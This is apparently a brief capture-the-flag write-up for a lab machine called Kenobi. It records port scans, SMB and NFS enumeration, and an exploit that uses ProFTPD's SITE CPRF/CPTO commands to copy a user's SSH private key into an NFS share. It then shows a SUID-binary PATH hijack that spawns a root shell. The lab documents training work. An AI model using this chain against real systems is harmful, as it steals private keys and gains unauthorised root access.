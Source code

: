 # BASIC INFO

```
ip_addr = 10.10.118.198

open port:
	21/tcp		ftp/ProFTPD 1.3.5
	22/tcp		ssh/OpenSSH 7.2p2
	80/tcp		http/Apache httpd 2.4.18
	111/tcp		rpcbind
	139/tcp		netbios-ssn/Samba smbd 3.X - 4.X
	445/tcp		netbios-ssn/Samba smbd 4.3.11-Ubuntu
	2049/tcp	nfs_acl
HOST = KENOBI

```

# ENUMERATING

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmap/enum $IP -T4
```
shares found: 3
-guests
-anonymous
-print$

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount -oN nmap/rpc $IP -T4

```
mount point: /var

# GAINING INITIAL CONTROL WITH PROFTPD

```
nc $IP 21
SITE CPRF /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa

mount.nfs $IP:/mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP

```

# PRIV ESC

```
find / -perm -u=s -type f 2>/dev/null
/usr/bin/menu
cd /tmp
echo /bin/bash > ifconfig
chmod 777 ifconfig
export PATH=/tmp:$PATH

/usr/bin/menu
3

```